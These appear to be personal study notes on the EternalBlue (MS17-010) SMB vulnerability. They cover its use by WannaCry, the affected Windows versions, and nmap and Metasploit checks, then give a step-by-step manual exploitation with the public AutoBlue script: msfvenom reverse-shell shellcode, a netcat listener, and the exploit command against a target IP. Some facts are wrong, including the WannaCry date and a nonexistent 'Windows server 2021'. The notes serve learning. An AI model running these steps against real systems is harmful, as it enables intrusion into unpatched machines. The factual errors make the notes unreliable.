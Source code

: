 + <mark style="background: #FF5582A6;">EternalBlue</mark> exploit was used in the <mark style="background: #FF5582A6;">WannaCry</mark> ransomware attack in June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible 
	+ Eternal blue would scan other computers on the network and spread the <mark style="background: #FF5582A6;">WannaCry</mark> 
+ The vulnerability affects <mark style="background: #FFF3A3A6;">multiple versions of Windows</mark>:
	+ Windows Vista
	+ Windows 7
	+ Windows server 2008
	+ Windows 8.1
	+ Windows server 2021
	+ Windows 10
	+ Windows server 2016

+ Microsoft released a patch for the vulnerability in March 2017, however, many users and companies have yet to patch the system
+ The <mark style="background: #FF5582A6;">EternalBlue</mark> exploit has a <mark style="background: #FF5582A6;">MSF</mark> auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems
+ The <mark style="background: #FF5582A6;">EternalBlue</mark> exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system
+ In addition to the <mark style="background: #FF5582A6;">MSF</mark> modules, we can also manually exploit the vulnerability by utilizing <mark style="background: #FFF3A3A6;">publicly available exploit code</mark>

AutoBlue-MS17-010 is the <mark style="background: #ADCCFFA6;">exploit script</mark> on Github

#### Recon EternalBlue 
+ will first do some recon
	+ `sudo nmap -sV -p 445 -O IP`
		+ Can see that SMB is running and it is windows server 2008, which is vulnerable 
+ Can also use an nmap script, <mark style="background: #FFB86CA6;">--script smb-vuln-ms17010</mark> to see if it is vulnerable 
	+ Will tell us the <mark style="background: #ADCCFFA6;">risk and that it is running SMBv1</mark>

#### Manually Exploiting EternalBlue 

Will go to the Github <mark style="background: #D2B3FFA6;">AutoBlue-MS17-010</mark>
+ Clone the repository 
+ The exploit .py file will have multiple versions
+ There will also be a text file with dependencies 
	+ can install with `pip install -r requirements.txt`
+ first generate the shell code with:
	+ ./shell_prep.sh
	+ can generate reverse shell with <mark style="background: #D2B3FFA6;">msfvenom</mark> 
		+ will have information requirements (LHOST, LPORT, etc)
+ Can now start a <mark style="background: #D2B3FFA6;">netcat</mark> listener 
	+  `nc -nvlp 1234` where 1234 was the port specified in the shell code
+ Then can <mark style="background: #FFF3A3A6;">run the exploit</mark>
	+ make a file executable with `chmod +x FILENAME.py`
	+ Then can run with `python3 eternalblue_exploit.py TARGET_IP shellcode/sc_x64.bin` (or whatever shell code is being used)
+ Now <mark style="background: #ADCCFFA6;">have a command shell </mark>

